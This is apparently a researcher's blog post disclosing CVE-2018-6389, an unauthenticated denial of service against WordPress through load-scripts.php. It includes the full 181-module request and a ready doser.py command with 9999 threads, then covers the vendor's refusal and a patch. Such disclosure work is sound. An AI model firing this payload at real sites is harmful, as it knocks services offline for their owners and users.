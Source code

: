 ```yaml
---
layout: post
title: How to DoS 29% of the World Wide Websites - CVE-2018-6389
---
```


According to wordpress.com, the WordPress platform powers 29% of the worldwide internet websites.

In this article I am going to explain how Denial of Service can easily be caused to almost any WordPress website online, and how you can patch your WordPress website in order to avoid this vulnerability being exploited.

It is important to note that exploiting this vulnerability is illegal, unless you have permission from the website owner.

  

While browsing a WordPress website, my attention was drawn to the following URL:

[https://WPServer/wp-admin/load-scripts.php?c=1&load%5B%5D=jquery-ui-core&ver=4.9.1](https://wpserver/wp-admin/load-scripts.php?c=1&load%5B%5D=jquery-ui-core&ver=4.9.1)

  

The load-scripts.php file receives a parameter called load\[\], the parameter value is 'jquery-ui-core'. In the response, I received the JS module 'jQuery UI Core' that was requested, as demonstrated in the following image:

  

[![](https://2.bp.blogspot.com/-4F7k687LhtY/WnNOLb2JEeI/AAAAAAAAeWo/Zg1InG9enfovEub5JguGQc7ODGDVpxVnwCPcBGAYYCw/s400/wordpress_DoS90975.jpg)](https://2.bp.blogspot.com/-4F7k687LhtY/WnNOLb2JEeI/AAAAAAAAeWo/Zg1InG9enfovEub5JguGQc7ODGDVpxVnwCPcBGAYYCw/s1600/wordpress_DoS90975.jpg)

  

  
  

What can be concluded from this URL, is that it is probably meant to supply users with some JS modules. In addition, the load\[\] parameter is an array, which means that it is possible to provide multiple values and be able to get multiple JS modules within the response.

  

As [WordPress is open-source](https://github.com/wordPress/WordPress), it is easy to perform code review and explore this feature. After doing so, I realized that this feature was designed to economize the amount of requests sent from the client while trying to load JS or CSS files, so when the browser needs to load multiple JS/CSS files, it will use load-scripts.php (for JS) or load-styles.php (for CSS files) and the browser will get multiple JS/CSS files through a single request- so performance-wise it is better to do so and the page will load faster. This feature was designed only for the admin pages, but is also used on the wp-login.php page, so no authentication is enforced on these files.  
  

First, I tried to manipulate this feature and provide a list of the 'jquery-ui-core' value multiple times as follows:

[https://WPServer/wp-admin/load-scripts.php?c=1&load%5B%5D=jquery-ui-core,jquery-ui-core,jquery-ui-core,jquery-ui-core,jquery-ui-core,jquery-ui-core&ver=4.9.1](https://wpserver/wp-admin/load-scripts.php?c=1&load%5B%5D=jquery-ui-core,jquery-ui-core,jquery-ui-core,jquery-ui-core,jquery-ui-core,jquery-ui-core&ver=4.9.1)

  

I thought I might make the server read the same file over and over again and append it to the same response, but the use of the 'array\_unique' function removes duplicates in arrays so that didn’t succeeded:  
  

[![](https://2.bp.blogspot.com/-dHeIDEGuHso/WnNRpQcDc0I/AAAAAAAAeW0/PMNGAIBRM6gnrxNlA8XPaEZ7cTP_nrLQACPcBGAYYCw/s400/wordpress_DoS29538.jpg)](https://2.bp.blogspot.com/-dHeIDEGuHso/WnNRpQcDc0I/AAAAAAAAeW0/PMNGAIBRM6gnrxNlA8XPaEZ7cTP_nrLQACPcBGAYYCw/s1600/wordpress_DoS29538.jpg)

  

  

  

I kept exploring the code and found something that looked interesting in the following code snippet, which I wanted to investigate further:

  

[![](https://1.bp.blogspot.com/-V7mYFyTsoRE/WnNShajANyI/AAAAAAAAeW8/GdX9vMUBui4cTVXl5pbT4QA7PgQm6MyJgCPcBGAYYCw/s400/wordpress_DoS13936.jpg)](https://1.bp.blogspot.com/-V7mYFyTsoRE/WnNShajANyI/AAAAAAAAeW8/GdX9vMUBui4cTVXl5pbT4QA7PgQm6MyJgCPcBGAYYCw/s1600/wordpress_DoS13936.jpg)

  

There is a well-defined list ($wp\_scripts), that can be requested by users as part of the load\[\] parameter. If the requested value exists, the server will perform an I/O read action for a well-defined path associated with the supplied value from the user.

  

The wp\_scripts list is hard-coded and is defined in the [script-loader.php](https://github.com/WordPress/WordPress/blob/master/wp-includes/script-loader.php) file:

  

[![](https://4.bp.blogspot.com/-y8i3CuXCPeg/WnNTlVC6zsI/AAAAAAAAeXI/sbEG8V8B-_8rcekg-MFhDbbhzIgo5WRHgCPcBGAYYCw/s640/wordpress_DoS84477.jpg)](https://4.bp.blogspot.com/-y8i3CuXCPeg/WnNTlVC6zsI/AAAAAAAAeXI/sbEG8V8B-_8rcekg-MFhDbbhzIgo5WRHgCPcBGAYYCw/s1600/wordpress_DoS84477.jpg)

  

  

There are 181 values in this list:
```javascript
eutil,common,wp-a11y,sack,quicktag,colorpicker,editor,wp-fullscreen-stu,wp-ajax-response,wp-api-request,wp-pointer,autosave,heartbeat,wp-auth-check,wp-lists,prototype,scriptaculous-root,scriptaculous-builder,scriptaculous-dragdrop,scriptaculous-effects,scriptaculous-slider,scriptaculous-sound,scriptaculous-controls,scriptaculous,cropper,jquery,jquery-core,jquery-migrate,jquery-ui-core,jquery-effects-core,jquery-effects-blind,jquery-effects-bounce,jquery-effects-clip,jquery-effects-drop,jquery-effects-explode,jquery-effects-fade,jquery-effects-fold,jquery-effects-highlight,jquery-effects-puff,jquery-effects-pulsate,jquery-effects-scale,jquery-effects-shake,jquery-effects-size,jquery-effects-slide,jquery-effects-transfer,jquery-ui-accordion,jquery-ui-autocomplete,jquery-ui-button,jquery-ui-datepicker,jquery-ui-dialog,jquery-ui-draggable,jquery-ui-droppable,jquery-ui-menu,jquery-ui-mouse,jquery-ui-position,jquery-ui-progressbar,jquery-ui-resizable,jquery-ui-selectable,jquery-ui-selectmenu,jquery-ui-slider,jquery-ui-sortable,jquery-ui-spinner,jquery-ui-tabs,jquery-ui-tooltip,jquery-ui-widget,jquery-form,jquery-color,schedule,jquery-query,jquery-serialize-object,jquery-hotkeys,jquery-table-hotkeys,jquery-touch-punch,suggest,imagesloaded,masonry,jquery-masonry,thickbox,jcrop,swfobject,moxiejs,plupload,plupload-handlers,wp-plupload,swfupload,swfupload-all,swfupload-handlers,comment-repl,json2,underscore,backbone,wp-util,wp-sanitize,wp-backbone,revisions,imgareaselect,mediaelement,mediaelement-core,mediaelement-migrat,mediaelement-vimeo,wp-mediaelement,wp-codemirror,csslint,jshint,esprima,jsonlint,htmlhint,htmlhint-kses,code-editor,wp-theme-plugin-editor,wp-playlist,zxcvbn-async,password-strength-meter,user-profile,language-chooser,user-suggest,admin-ba,wplink,wpdialogs,word-coun,media-upload,hoverIntent,customize-base,customize-loader,customize-preview,customize-models,customize-views,customize-controls,customize-selective-refresh,customize-widgets,customize-preview-widgets,customize-nav-menus,customize-preview-nav-menus,wp-custom-header,accordion,shortcode,media-models,wp-embe,media-views,media-editor,media-audiovideo,mce-view,wp-api,admin-tags,admin-comments,xfn,postbox,tags-box,tags-suggest,post,editor-expand,link,comment,admin-gallery,admin-widgets,media-widgets,media-audio-widget,media-image-widget,media-gallery-widget,media-video-widget,text-widgets,custom-html-widgets,theme,inline-edit-post,inline-edit-tax,plugin-install,updates,farbtastic,iris,wp-color-picker,dashboard,list-revision,media-grid,media,image-edit,set-post-thumbnail,nav-menu,custom-header,custom-background,media-gallery,svg-painter
```
  

I wondered what would happen if I sent the server a request to supply me every JS module that it stored? A single request would cause the server to perform 181 I/O actions and provide the file contents in the response.  
  
So I tried it, I sent the request to the server:

  

[![](https://2.bp.blogspot.com/-Y3-moeyXvPQ/WnNV7mKCU5I/AAAAAAAAeXU/RhU4-o_eYs8657dpBYTOUQSTshEqOmcMACPcBGAYYCw/s640/wordpress_DoS83402.jpg)](https://2.bp.blogspot.com/-Y3-moeyXvPQ/WnNV7mKCU5I/AAAAAAAAeXU/RhU4-o_eYs8657dpBYTOUQSTshEqOmcMACPcBGAYYCw/s1600/wordpress_DoS83402.jpg)

  

The server responded after 2.2 seconds, with almost 4MB of data, which made the server work really hard to process such a request.

So I decided to use [doser.py](https://github.com/quitten/doser.py), a simple tool that I wrote, designed to constantly repeat requests (yes, I know Python threads suck, but I still love Python!) in order to cause DoS, and guess what? it worked! :)
```bash
python doser.py -g 'http://mywpserver.com/wp-admin/load-scripts.php?c=1&load%5B%5D=eutil,common,wp-a11y,sack,quicktag,colorpicker,editor,wp-fullscreen-stu,wp-ajax-response,wp-api-request,wp-pointer,autosave,heartbeat,wp-auth-check,wp-lists,prototype,scriptaculous-root,scriptaculous-builder,scriptaculous-dragdrop,scriptaculous-effects,scriptaculous-slider,scriptaculous-sound,scriptaculous-controls,scriptaculous,cropper,jquery,jquery-core,jquery-migrate,jquery-ui-core,jquery-effects-core,jquery-effects-blind,jquery-effects-bounce,jquery-effects-clip,jquery-effects-drop,jquery-effects-explode,jquery-effects-fade,jquery-effects-fold,jquery-effects-highlight,jquery-effects-puff,jquery-effects-pulsate,jquery-effects-scale,jquery-effects-shake,jquery-effects-size,jquery-effects-slide,jquery-effects-transfer,jquery-ui-accordion,jquery-ui-autocomplete,jquery-ui-button,jquery-ui-datepicker,jquery-ui-dialog,jquery-ui-draggable,jquery-ui-droppable,jquery-ui-menu,jquery-ui-mouse,jquery-ui-position,jquery-ui-progressbar,jquery-ui-resizable,jquery-ui-selectable,jquery-ui-selectmenu,jquery-ui-slider,jquery-ui-sortable,jquery-ui-spinner,jquery-ui-tabs,jquery-ui-tooltip,jquery-ui-widget,jquery-form,jquery-color,schedule,jquery-query,jquery-serialize-object,jquery-hotkeys,jquery-table-hotkeys,jquery-touch-punch,suggest,imagesloaded,masonry,jquery-masonry,thickbox,jcrop,swfobject,moxiejs,plupload,plupload-handlers,wp-plupload,swfupload,swfupload-all,swfupload-handlers,comment-repl,json2,underscore,backbone,wp-util,wp-sanitize,wp-backbone,revisions,imgareaselect,mediaelement,mediaelement-core,mediaelement-migrat,mediaelement-vimeo,wp-mediaelement,wp-codemirror,csslint,jshint,esprima,jsonlint,htmlhint,htmlhint-kses,code-editor,wp-theme-plugin-editor,wp-playlist,zxcvbn-async,password-strength-meter,user-profile,language-chooser,user-suggest,admin-ba,wplink,wpdialogs,word-coun,media-upload,hoverIntent,customize-base,customize-loader,customize-preview,customize-models,customize-views,customize-controls,customize-selective-refresh,customize-widgets,customize-preview-widgets,customize-nav-menus,customize-preview-nav-menus,wp-custom-header,accordion,shortcode,media-models,wp-embe,media-views,media-editor,media-audiovideo,mce-view,wp-api,admin-tags,admin-comments,xfn,postbox,tags-box,tags-suggest,post,editor-expand,link,comment,admin-gallery,admin-widgets,media-widgets,media-audio-widget,media-image-widget,media-gallery-widget,media-video-widget,text-widgets,custom-html-widgets,theme,inline-edit-post,inline-edit-tax,plugin-install,updates,farbtastic,iris,wp-color-picker,dashboard,list-revision,media-grid,media,image-edit,set-post-thumbnail,nav-menu,custom-header,custom-background,media-gallery,svg-painter&ver=4.9' -t 9999
```
  

As long as I kept sending those requests to the server, it was too busy to handle any other request, and I had effectively (and easily) caused DoS.

  

It is time to mention again that load-scripts.php does not require any authentication, an anonymous user can do so.

After ~500 requests, the server didn't respond at all any more, or returned 502/503/504 status code errors like:  
  

[![](https://2.bp.blogspot.com/-CZfC8TqhR7I/WnSt5WhMn1I/AAAAAAAAecw/3yc5vXKh-G4NIEOFtqUSjL_ap7c9ipK8wCPcBGAYYCw/s320/503.jpeg)](https://2.bp.blogspot.com/-CZfC8TqhR7I/WnSt5WhMn1I/AAAAAAAAecw/3yc5vXKh-G4NIEOFtqUSjL_ap7c9ipK8wCPcBGAYYCw/s1600/503.jpeg)

  

[![](https://2.bp.blogspot.com/-klcJxiz-FQg/WnSufnQqUSI/AAAAAAAAec8/6tvTo7IZtkMiPdFTAwrJK5fSJuyZhZcJQCPcBGAYYCw/s320/522.jpeg)](https://2.bp.blogspot.com/-klcJxiz-FQg/WnSufnQqUSI/AAAAAAAAec8/6tvTo7IZtkMiPdFTAwrJK5fSJuyZhZcJQCPcBGAYYCw/s1600/522.jpeg)

  

[![](https://2.bp.blogspot.com/-BMq_fAPVm7k/WnStEObY-mI/AAAAAAAAeco/ih28vCrQWocElxfv3DH5DA3QDSpAxglHQCPcBGAYYCw/s320/wordpress_DoS85318.jpg)](https://2.bp.blogspot.com/-BMq_fAPVm7k/WnStEObY-mI/AAAAAAAAeco/ih28vCrQWocElxfv3DH5DA3QDSpAxglHQCPcBGAYYCw/s1600/wordpress_DoS85318.jpg)

  

  

Full PoC video:
https://www.youtube.com/watch?v=nNDsGTalXS0
  

  

WordPress has a bug bounty program, and I contacted them about this issue, even though I knew DoS vulnerabilities are out-of-scope, I reported it through HackerOne and explained the vulnerability, I thought they would understand that there is a security issue here and properly address it. After going back and forth about it a few times and my trying to explain and provide a PoC, they refused to acknowledge it and claimed that:  
"This kind of thing should really be mitigated at the server or network level rather than the application level, which is outside of WordPress's control."

  

Even though I was extremely frustrated about them not acknowledging this as a vulnerability, I kept on exploring how I can mitigate this attack, and [forked WordPress project and patched it](https://github.com/quitten/WordPress) so no one but authenticated users can access the load-\*.php files, without actually harming the wp-login.php file functionality. So if you are currently using, or are about to use, WordPress, I would highly recommend you use the patched version.

In case you already have a WordPress website on a Linux machine, I created [this bash script](https://github.com/Quitten/WordPress/blob/master/wp-dos-patch.sh) that modifies the relevant files in order to mitigate the vulnerability.

  
